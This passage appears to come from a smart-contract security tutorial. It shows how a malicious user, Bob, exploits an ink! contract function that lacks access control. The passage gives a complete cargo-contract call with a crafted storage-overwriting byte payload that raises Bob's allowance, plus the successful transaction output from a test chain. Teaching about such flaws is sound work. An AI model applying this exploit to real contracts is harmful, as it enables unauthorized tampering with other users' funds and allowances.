 ```bash
         to: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
         amount: 100.08mUNIT
       Event Balances ➜ Reserved
         who: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
         amount: 100.08mUNIT
       Event TransactionPayment ➜ TransactionFeePaid
         who: 5GrwvaEF5zXb26Fz9rcQpDWS57CtERHpNehXCPcNoHGKutQY
         actual_fee: 98.974204μUNIT
         tip: 0UNIT
       Event System ➜ ExtrinsicSuccess
         dispatch_info: DispatchInfo { weight: Weight { ref_time: 3485758564, proof_size: 30498 }, class: Normal, pays_fee: Yes }
```

Let us assume Bob is a malicious user and he wants to set a higher allowance
for himself without Alice's approval. Taking a look at the smart contract, 
he notices that the function `misused_set_contract_storage()` has no access 
control validation and uses the `set_contract_storage()` function. Working on 
the input of this function, he could change the contract's storage and his 
allowance.

In order to do this, he runs the following command `cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message MisusedSetContractStorage::misused_set_contract_storage --args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000 --suri //Bob`.

```bash
user:example$ cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message MisusedSetContractStorage::misused_set_contract_storage --args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000 --suri //Bob
 Dry-running MisusedSetContractStorage::misused_set_contract_storage (skip with --skip-dry-run)
    Success! Gas required estimated at Weight(ref_time: 7983333376, proof_size: 262144)
Confirm transaction details: (skip with --skip-confirm)
     Message MisusedSetContractStorage::misused_set_contract_storage
        Args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000
   Gas limit Weight(ref_time: 7983333376, proof_size: 262144)
Submit? (Y/n): y
      Events
       Event Balances ➜ Withdraw
         who: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         amount: 98.974241μUNIT
       Event Contracts ➜ Called
         caller: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         contract: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
       Event TransactionPayment ➜ TransactionFeePaid
         who: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         actual_fee: 98.974241μUNIT
         tip: 0UNIT
       Event System ➜ ExtrinsicSuccess
         dispatch_info: DispatchInfo { weight: Weight { ref_time: 2142080861, proof_size: 30498 }, class: Normal, pays_fee: Yes }
```
